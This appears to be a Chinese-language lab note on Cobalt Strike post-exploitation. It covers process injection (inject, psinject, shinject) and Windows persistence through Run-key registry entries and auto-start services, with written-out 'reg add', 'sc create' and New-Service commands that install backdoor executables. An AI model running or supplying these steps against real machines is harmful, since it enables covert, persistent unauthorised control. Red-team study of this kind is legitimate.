# 1、进程迁移
- 原理：恶意程序并不以独立进程的形式启动运行，而是将自身代码与执行逻辑加载到系统中已处于运行状态的其他进程内，依托目标进程完成自身功能的执行。通过这种方式可以让程序不会在进程列表中单独显现，从而借助合法进程实现隐蔽运行，降低被安全工具察觉的概率，该方法也可以继承目标进程的权限与运行环境。
- 方法1：
  - 原理：inject是CS中最基础的进程注入命令，基于传统CreateRemoteThread远程线程注入实现，通过打开目标进程，在其内存中分配空间并写入 Shellcode，最后创建远程线程触发执行

  查看inject使用方法：
  
  找到需要迁移的目标进程PID：
  
  进行迁移：
  
  迁移成功：
  

- 方法2：
  - 原理：psinject 采用反射型DLL注入技术，实现无文件的进程注入能力。它不通过LoadLibrary等常规加载方式，而是直接将Beacon的DLL镜像注入目标进程内存，并手动完成重定位、导入表解析与入口调用，避免在磁盘留下文件痕迹与加载记录

  查看psinject使用方法：
  
  生成powershell一句话：
  
  
  复制上述powershell一句话并进行进程迁移：
  

- 方法3：
  - 原理：shinject是CS中隐蔽性更强的Shellcode注入命令，底层基于QueueUserAPC APC注入实现。它不创建新线程，而是将 Shellcode写入目标进程后，把执行地址添加到指定线程的APC队列中，当线程进入可提醒状态时自动执行 Shellcode
  
  查看shinject：
  
  生成raw形式payload：
  
  找到目标进程并进行迁移：
  

# 2、通过注册表进行自启动
- 原理：利用Windows系统开机或用户登录时自动加载指定注册表项中程序的机制，攻击者将恶意程序路径写入Run、RunOnce、Userinit、Winlogon等系统默认读取的启动项键值，使系统在启动、用户登录或对应进程初始化时，自动执行配置好的恶意程序，从而在无需人工干预的情况下重新获得系统控制权

- 实验：
    ```bash
    HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run    # 开机自动运行程序的标准注册表项

    # 在开机自动运行程序的标准注册表项添加恶意程序，这样以来设备开机之后即可自动执行恶意程序
    ```
    上传恶意程序：
    
    新建恶意注册表项：
    ```bash
    # 前提：目标机开启 Remote Registry 服务，且当前账户有目标机管理员权限
    reg add "\\192.168.159.131\HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SysService" /t REG_SZ /d "C:\horse2.exe" /f

    HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    ```
    
    保持监听器正常并重启目标机测试是否可以自动上线：
    
    可以看到正常上线了，目标机的对应注册表路径下内容：
    

# 3、注册计划任务进行自启动
- 原理：利用Windows系统在开机时会自动启动所有标记为自动运行的系统服务这一机制，将恶意程序或后门注册为系统服务，设置为自动启动类型。系统启动过程中会以SYSTEM或指定高权限账户加载并运行该服务，使后门在无需用户登录的情况下即可自动执行
- 实验：
    ```bash
    sc create "horse1" binpath= "cmd /c start /b C:\horse1.exe"    # 设置恶意程序

    sc description "horse1" "hello"  # 设置horse1服务对应的描述为hello

    sc config "horse1" start= auto   # 设置该服务为自启动
    
    sc start "horse1"    # 启动服务

    sc delete "horse1"   # 删除服务
    ```
    
    可以看到服务已经创建成功，并且通过horse1以system上线了
    
    重启目标机测试自启动是否设置成功：
    
    可以看到我通过普通用户test123登录机之后horse1服务以system也成功自启了

    也可以通过powershell进行服务设置：
    ```bash
    powershell.exe -Command "New-Service -Name 'hahaha' -BinaryPathName 'cmd /c start /b C:\horse1.exe' -Description 'lalala' -StartupType Automatic"

    sc start hahaha
    ```
    
    查看计划任务列表：
    